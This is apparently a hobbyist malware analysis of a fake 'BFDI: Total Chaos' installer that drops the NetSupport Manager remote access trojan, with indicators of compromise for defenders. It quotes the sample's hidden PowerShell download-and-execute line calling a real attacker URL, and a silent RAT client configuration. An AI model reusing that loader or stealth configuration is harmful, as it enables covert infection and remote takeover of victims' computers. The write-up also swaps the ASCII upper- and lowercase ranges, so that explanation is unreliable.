<h1 align="center">
A malware analysis of "BFDI: Total Chaos"
</h1>
It's not Ransomware, it's RAT (Remote Access Trojan). Stop mistaking those 😭

## Background
A Twitter account, Jacknjellify got hacked for ~~no~~ unknown reasons.

<p align="center">
<kbd>
  
</kbd>
</p>

After this happened, GitHub profile to malicious actor was wiped off.

<p align="center">
<kbd>
  
</kbd>
</p>

Luckily, Wayback Machine fan archived those.

<p align="center">
<kbd>
  
  
</kbd>
</p>

What's funny was: 

<p align="center">
<kbd>
  
</kbd>
</p>

Okay, so malicious actor got away, right? No. I got the malware sample, thanks to BFDI fans who uploaded it on VirusTotal and a random bot uploaded to Triage also

triage pls unban me you banned me for a year now

## Analysis
### Malware Jr.
**TL;DR**: PortableApps launcher. It execute another app with ~~arguements~~ arguments.

After unzip the sample, we got those file:
<p align="center">
<kbd>
  
</kbd>
</p>

Interestingly, they include a photo of an error message
<p align="center">
<kbd>
  
</kbd>
</p>

For the `Installer-83.619.6968.exe`, I noticed that they're using PortableApps Launcher:
<p align="center">
<kbd>
  
</kbd>
</p>

> Question: What is PortableApps Launcher?

PortableApps Launcher is a software to create portable software without writing any code. They used NSIS for that.
<p align="center">
<kbd>
  
</kbd>
</p>

Inside `.\Data\settings\InstallerSettings.ini`, something interesting:
<p align="center">
<kbd>
  
</kbd>
</p>
(don't worry, I uses Notepad++ 8.7.1, way before other event happened.)

```
[InstallerSettings]
LastDrive=C:
LastDirectory=\Users\krfif\Desktop\готовый лоадер права дж+склейка
[PortableApps.comLauncherLastRunEnvironment]
PAL:LastPortableAppsBaseDir=C:\Users\krfif
```

Inside `App\AppInfo\Launcher\Installer-83.619.6968.ini`, there are some info:
```
[Launch]
WorkingDirectory='%PAL:AppDir%\AppData'
ProgramExecutable='AppData\Installer.83.619.6968.exe'
CommandLineArguments='"Installer-83.619.6968-1.dll" 1988417094'
HideCommandLineWindow=true
DirectoryMoveOK=yes
SupportsUNC=no
CleanTemp=false
SinglePortableAppInstance=true
```

What does that mean?
- Another exe from `.\App\AppData\Installer.83.619.6968.exe` (because PortableApps Launcher execute that exe file)
- Run command `Installer.83.619.6968.exe "Installer-83.619.6968-1.dll" 1988417094`
- Hide command window (so you guy doesn't scared)
- Doesn't require UAC (aka Administrator)

And... a fake InstallShield splash screen jumpscare:
<p align="center">
<kbd>
  
</kbd>
</p>

### Behind Blocky's mask
**TL;DR**: `Installer-83.619.6968-1.dll` is just a JavaScript code to execute Powershell command. `Installer.83.619.6968.exe` (NodeJS) run that code to execute PowerShell command.

`Installer.83.619.6968.exe` is just NodeJS, but old version.
<p align="center">
<kbd>
  
</kbd>
</p>

> Question: What is NodeJS?

NodeJS is a JavaScript runtime environment to let people run their code with it. NodeJS mostly for server, web apps, scripts and more.
<p align="center">
<kbd>
  
</kbd>
</p>

`Installer-83.619.6968-1.dll` is just JavaScript code.
<p align="center">
<kbd>
  
</kbd>
</p>

```js
require('child_process').exec('powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile -Command "$vid = -join ((65..90) + (97..122) | Get-Random -Count 8 | % {[char]$_}); iex((New-Object Net.WebClient).DownloadString(\'https://mikabooks.com/captcha.php?vid=\' + $vid))"');
```

> Question: What this script does?

Let me break those apart:
```js
require('child_process').exec('...')
```
- `require` mean it need a module. 
- `child_process` is a NodeJS module for executing process. 
- `exec` mean executing.


```powershell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile -Command "..."
```
- `-WindowStyle Hidden` mean the window is hidden, again.
- `-ExecutionPolicy Bypass`: By default, PowerShell's Execution Policy don't allow any untrusted command executed. That's why `Bypass` flag exist.
- `-NoProfile`: tells PowerShell not to load user or machine profiles that will modify the PowerShell state before running the command.

Next one:
```powershell
$vid = -join ((65..90) + (97..122) | Get-Random -Count 8 | % {[char]$_}); 
```

This is Victim ID generations:
- `$vid`: A variable for "Victim ID"
- `(65..90)`: Integers from 65 to 90. In ASCII table, they're lowercase.
- `(97..122)`: Same as above but UPPERCASE
- `| Get-Random -Count 8`: The list of 52 numbers is "piped" (|) into the Get-Random cmdlet. They generate 8 number.
- `| % {[char]$_}`: The 8 random numbers are piped into a loop. They turn integer into character. For example: `65` -> `a`, `122` -> `Z`
- `-join`: Join everything together, we got something like: `aBcDwXyZ`

### Criminal Recovery Center
**TL;DR**: Get another Powershell script file

After "Victim ID" generated above...
```powershell
iex((New-Object Net.WebClient).DownloadString(\'https://mikabooks.com/captcha.php?vid=\' + $vid))
```
- `iex`: Alias for `Invoke-Expression`. They runs a specified string as a command.
- `(New-Object Net.WebClient)`: This one is interesting. It's a headless web client. They create that for this bellow:
- `.DownloadString`: Download string from source.
- `https://mikabooks.com/captcha.php?vid=`: Source URL
- `$vid`: The "Victim ID" we got earlier.

The final URL looks like this:
```
https://mikabooks.com/captcha.php?vid=aBcDwXyZ
```
Don't be fooled by the name, this is not captcha, this one get the PowerShell script again.
<p align="center">
<kbd>
  
</kbd>
</p>

> Question: Why they do this?

Because they do that to evade anti-virus detection. Because variable name and strings changed each times. My common example is this one:

First reload:
```
$dir3b8e = "SY-CACDEC65-5174-4D63-9E3D-8B31078F4063"
```

Second reload:
```
$dir87d9 = "DA-9F9BC9F3-E2CD-4FBE-B4A7-A8F32FB70F30"
```

With that, AV considered this is just a new sample.

### Malware: Elsewhere
I'm too tired to explain all of these so you can check the graph [here][flow] (if you don't trust me you can use redirect checker. I use mermaid.live for flowchart) or this image:

<p align="center">
<kbd>
  
</kbd>
</p>

> Question: What is magic.zip?

### Coiny and The Mighty Supporters
**TL;DR**: a Remote Access Trojan (RAT) with legitmate software.

Inside `magic.zip`, we have:

<p align="center">
<kbd>
  
</kbd>
</p>

Interesting, let's check the `client32.exe`
<p align="center">
<kbd>
  
</kbd>
</p>

Oh, NetSupport.

> Question: What is NetSupport?

I want to be specific here: This is __NetSupport Manager__. It's a Windows-centric cross-platform remote control software, allowing remote screen control and systems management.

<p align="center">
<kbd>
  
</kbd>
</p>

> Question: Maybe threat actors tampered that software?

No.
<p align="center">
<kbd>
  
</kbd>
</p>

> Question: So it's a legitmate software?

No.

## NetSupport Manager - The RAT Legend
### How does it work?
Inside `client32.ini`, the config already configured the IP and Port to threat actors, along with encryption key generated by NetSupport Manager.
<p align="center">
<kbd>
  
</kbd>
</p>

By setting this, the threat actors successfully infected the victim.

And, with stealth option too:
```ini
[Client]
_present=1
DisableChatMenu=1
DisableClientConnect=1
DisableDisconnect=1
DisableReplayMenu=1
DisableRequestHelp=1
HideWhenIdle=0
Protocols=3
RoomSpec=Eval
ShowUIOnConnect=0
silent=1
SysTray=0
UnloadMirrorOnDisconnect=1
Usernames=*
```

### Why NetSupport did that in first place?
Because NetSupport Manager intended for mass deployment. IT admins need to deploy the software to thousands of computers at once. A configuration file with client (generated by NS Manager) allows them to pre-set settings so the software works immediately upon installation.

Plus, admins need the "Quiet Mode" to update software and monitoring employees without bothering them with pop-ups.

### Why threat actors love it
Because:

- It's easy to use
- Digitally signed by companies, so AV less likely detect them
- Can bundling with others

## Closing
This is very great (if not clever) RAT they ever made. With this analysis, I hope every BFDI and OSC fans stay safe and have a nice day.

This is my first ever malware analysis I ever published as I analyzed like tons of them.

## IOCs (indicators of compromises)

| Items   | Indicators |
|---------|------------|
| App.zip | `F0F6E44F31ABE555FD0D7C0922C3EC9A3AC41C82DD2DACC06A4342262F97565D` |
| Installer-83.619.6968.exe | `BF0E870E0B9DE578AB72A4B8CEE7B12E23BC5BDDE92748E37DF72456AB11308E` |
| Installer.83.619.6968.exe | `C1C84E86807E1A0F0594FAE6883F904C958710E8DBEB760249FCC59EEC9E9949` |
| magic.zip | `6D2B255E3CC8493D333FFC145D3663C3D7240BBDF8F47CCE54543388552D2120` |
| C2 IP | `45[.]142[.]193[.]144:4998` |

## Special thanks
- Pwn3rzs Chat
- crackmes.one
- tuts4you
- exetools

## Contacts:
- Bluesky: @bang1338
- Discord: bang1338
- Telegram: @Bang1338
- Twitter: @bang1338
- literally probably any: bang1338
- Email: bang1338@proton.me


[flow]: https://spoo.me/bfdie-tc-malware
